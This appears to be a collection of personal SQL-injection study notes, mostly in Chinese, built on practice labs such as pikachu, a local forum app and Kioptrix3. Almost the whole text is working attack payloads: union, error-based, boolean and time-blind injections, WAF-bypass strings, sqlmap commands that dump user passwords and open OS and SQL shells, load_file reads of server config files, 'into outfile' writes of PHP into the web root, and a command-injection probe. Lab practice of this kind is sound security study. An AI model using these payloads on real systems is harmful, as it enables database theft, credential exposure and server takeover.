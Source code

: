 pass = '' or '1' = '1';
' or '1' = '1



`http://localhost/wzry/url.php?date=20231012' union SELECT database(),'','','`

`http://localhost/wzry/url.php?date=20231012' union SELECT

(select GROUP_CONCAT(c.COLUMN_NAME )from information_schema.COLUMNS c where

c.TABLE_SCHEMA='game' and c.TABLE_NAME='user'),'','','`


`http://localhost/wzry/url.php?date=20231012'j   union select database(),version(),user(),'`


`http://localhost/bbs/showmessage.php?id=-1 union select 1,2,load_file('D:\\2024\\phpStudy2018\\PHPTutorial\\Apache\\conf\\vhosts.conf'),4`



通过exploit database搜索得知，gallarific的gallery.php页面存在sql注入漏洞
sqlmap -u "http://kioptrix3.com/gallery/gallery.php?id=1" --dbs
sqlmap -u "http://kioptrix3.com/gallery/gallery.php?id=1" --tables



sqlmap -u "http://kioptrix3.com/gallery/gallery.php?id=1" --search -D gallery -T gallarific_users
sqlmap -u "http://kioptrix3.com/gallery/gallery.php?id=1" --search -D gallery -T dev_accounts


获得gallery数据库下的表名:sqlmap -u http://kioptrix3.com/gallery/gallery.php?id=1 -p id --level 4 --risk 3 -D gallery --tables --batch
获取dev_accounts表的数据：sqlmap -u http://kioptrix3.com/gallery/gallery.php?id=1 -p id --level 4 --risk 3 -D gallery -T dev_accounts --dump --batch

`sqlmap -u 'http://192.168.244.1/bbs/showmessage.php?id=2' -D jrlt -T users --columns`

`sqlmap -u 'http://192.168.244.1/bbs/showmessage.php?id=2' -D jrlt -T users -C name,password --dump`
sqlmap -u 'http://192.168.244.1/bbs/showmessage.php?id=2' --current-db

sqlmap -u 'http://192.168.244.1/bbs/showmessage.php?id=2' --sql-shell
sqlmap -u 'http://192.168.244.1/bbs/showmessage.php?id=2' --password
sqlmap -u 'http://192.168.244.1/bbs/showmessage.php?id=2' --os-shell
sqlmap -u 'http://192.168.244.1/bbs/showmessage.php?id=2' --file-read "D:\e.txt"

`http://localhost/bbs/showmessage.php?id=1 order by 4
`http://localhost/bbs/showmessage.php?id=-1 union select 1,2,3,4`
`http://localhost/bbs/showmessage.php?id=-1 union select 1,database(),version(),4`
`http://localhost/bbs/showmessage.php?id=-1 union select 1,database(),version(),(select group_concat(schema_name) from information_schema.schemata)
`http://localhost/bbs/showmessage.php?id=-1 union select 1,2,version(),group_concat(schema_name) from information_schema.schemata`

==`==================pikachu手动查询：================================`==


`http://localhost/bbs/showmessage.php?id=-1 /*!union*/ select 1,2,3,(select group_concat(schema_name) from information_schema.schemata)`

`http://localhost/bbs/showmessage.php?id=-1 /*!union*/ select 1,2,3,database/**/()`

`http://localhost/bbs/showmessage.php?id=-1 union select 1,database(),version(),(select group_concat(table_name) from  information_schema.tables where table_schema='jrlt')`


`http://localhost/bbs/showmessage.php?id=-1 union select 1,2,3,group_concat(column_name) from information_schema.columns where table_name='users'and table_schema='jrlt'`


`http://localhost/bbs/showmessage.php?id=-1 union  select 1,2,3,concat(name,':',password) from users limit 0,1`


盲注：
kobe' and length(database())<8#
kobe' and ascii(substr(database(),1,1))=112#
kobe' and ascii(substr(database(),1,1))=112 -- +

lucy' and if(length(database())<10,sleep(5),1)#
`sqlmap -u 'http://192.168.2.4/pikachu/vul/sqli/sqli_blind_t.php?name=1&submit=%E6%9F%A5%E8%AF%A2' --current-db` 



admin%'  order by 3#
') union select 1,database()#
宽字节：1%df' union select user(),database()#   --+

=======================================================

`http://localhost/bbs/showmessage.php?id=2 and (select 1 from (select count(*),concat(0x5e,(select version() from information_schema.tables limit 0,1) ,0x5e,floor(rand(0)*2))x from information_schema.tables group by x)a)`



0x5e："^"符号的 16 进制,约定俗成，一般给程序使用


==`============报错注入：=====================================`==
获得数据库名字：
username=123' or updatexml(1,concat(0x5e,(select database()),0x5e),1) or'

?id=57%20or%20updatexml(1,concat(0x5e,(select%20user()),0x5e),1)--+


获取数据表名称：
?id=57%20or%20updatexml(1,concat(0x5e,(select%20group_concat(table_name)%20from%20information_schema.tables%20where%20table_schema='pikachu'),0x5e),1)--+

获取列名称：
xx' or updatexml(1,concat(0x5e,(select group_concat(column_name) from information_schema.columns where table_name='users' and table_schema='pikachu'),0x5e),1) or‘
?id=57%20or%20updatexml(1,concat(0x5e,(select%20group_concat(column_name)%20from%20information_schema.columns%20where%20table_name='users'%20and%20table_schema='pikachu'),0x5e),1)--+


根据列表获取内容：
xx‘or updatexml(1,concat(0x5e,(select concat(name,':',password) from users limit

0,1),0x5e),1) or '

?id=57%20or%20updatexml(1,concat(0x5e,(select%20concat(username,':',password)%20from%20users%20limit%200,1),0x5e),1)--+ 



============================================================

' order by 2#
’) union select 1,2#
' union select database(),user()#

admin' and if(1=1,sleep(2),1)#
127.0.0.1;whoami


待测试：

' or (select 1 from (select count(*),concat(0x5e,(select database() from

information_schema.tables limit 0,1) ,0x5e,floor(rand(0)*2))x from

information_schema.tables group by x)a) or'

' or extractvalue(1, concat(0x5c, (select group_concat(table_name) from

information_schema.tables where table_schema='jrlt'),0x5c)) or '

获取字段
' or updatexml(1,concat(0x5e,(select group_concat(column_name) from

information_schema.columns where table_name='users' and table_schema='jrlt'),0x5e),1) or '

获取数据
' or updatexml(1,concat(0x5e,(select concat(name,':',password) from users limit

0,1),0x5e),1) or '







`select floor(rand(14)*2) from information_schema.TABLES;`
`select floor(rand(0)*2) from information_schema.TABLES;`
`SELECT extractvalue('<root><username>luojie</username><age>18</age></root>', '//username');`
 
`SELECT updatexml('<root><username>luojie</username><age>18</age></root>', '//username','<name>luojiejie</name>');`


`http://localhost/bbs/showmessage.php?id=1 and extractvalue(1, concat(0x5c, (select version()),0x5c))`


`http://localhost/bbs/showmessage.php?id=1 and updatexml(1,concat(0x5e,(select version()),0x5e),1)`


`http://localhost/bbs/showmessage.php?id=-5%20union%20select%201,2,3,load_file(%27D:\\phpstudy_pro\\Extensions\\Apache2.4.39\\conf\\vhosts\\0localhost_80.conf%27)`


`/bbs/showmessage.php?id=-1 union select 1,2,3,'<?php phpinfo();?>' into outfile "D:\\phpstudy_pro\\WWW\\test001.php"`


布尔注入
`http://localhost/bbs/showmessage.php?id=2 and ascii(substr(database(),1,1))=107`


`http://localhost/bbs/showmessage.php?id=2 and (select count(table_name) from information_schema.tables where table_schema=database())<2



?id=-1 union select 1,2,3,@@datadir
?id=-1 union select 1,2,3,'<?php phpinfo();?>' into outfile “C:\\Users\\86188\\Desktop\\tool\\phpStudy\\PHPTutorial\\WWW\\bbs\\test.php"



WAF绕过：

`?id=1/**&id=-1% union select 1,2,3,4%23*/`
`?id=1/**&id=-1% union select 1,2,3,database()%23*/`




